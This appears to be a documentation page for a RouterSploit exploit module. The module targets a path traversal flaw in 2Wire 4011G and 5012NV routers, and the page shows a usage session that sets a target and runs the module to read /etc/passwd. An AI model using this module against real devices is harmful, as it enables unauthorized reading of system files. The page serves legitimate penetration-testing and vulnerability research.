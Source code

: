 # 2Wire 4011G & 5012NV Path Traversal

## Description
Module exploits path traversal vulnerability in 2Wire 4011G and 5012NV devices. If the target is vulnerable it is possible to read file from the filesystem.

## Authors
* adiaz # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # vulnerability discovery

## References
* [https://www.underground.org.mx/index.php?topic=28616.0](https://www.underground.org.mx/index.php?topic=28616.0)

## Vulnerable devices
* 2Wire 4011G
* 2Wire 5012NV

## Usage
```
rsf > use exploits/2wire/4011g_5012nv_path_traversal
rsf (2Wire 4011G & 5012NV Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/passwd          File to read from filesystem


rsf (2Wire 4011G & 5012NV Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (2Wire 4011G & 5012NV Path Traversal) > run
[*] Running module...
```
